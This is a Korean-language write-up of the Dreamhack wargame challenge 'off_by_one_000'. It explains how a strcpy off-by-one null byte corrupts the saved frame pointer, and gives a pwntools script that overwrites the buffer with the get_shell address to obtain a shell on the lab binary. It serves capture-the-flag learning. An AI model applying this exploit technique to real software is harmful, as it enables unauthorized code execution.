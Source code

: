 # off_by_one_000

- [문제페이지](https://dreamhack.io/wargame/challenges/9)

## 문제 해설

먼저 문제에서 주어진 소스코드와 보안요소를 살펴보자.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}
```

```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

다음을 살펴보면 partial relro를 제외한 부분은 적용되어있지 않으며 strcpy를 이용하고 있다.

strcpy는 ```\x00```이 나올때까지 복사한다. 따라서, real_name에 256만큼의 cp_name과 `\x00`이 복사된다. cpy에서 `leave;`가 작동할때, rbp값이 main의 rbp에서 초기 비트가 `\x00`으로 바뀐값으로 바뀌게 된다. 이 때, 변경된 rbp값은 cp_name을 통해 변조가 가능하다. 따라서, 해당 위치를 `get_shell`의 값으로 바꾸면 get_shell 실행이 가능하다.

코드로 작성하면

```python
from pwn import *

p = process("./off_by_one_000")

pause()

payload = p32(0x080485db) * (256//4)
print(payload)

p.send(payload);

p.interactive();
```

![alt text](image.png)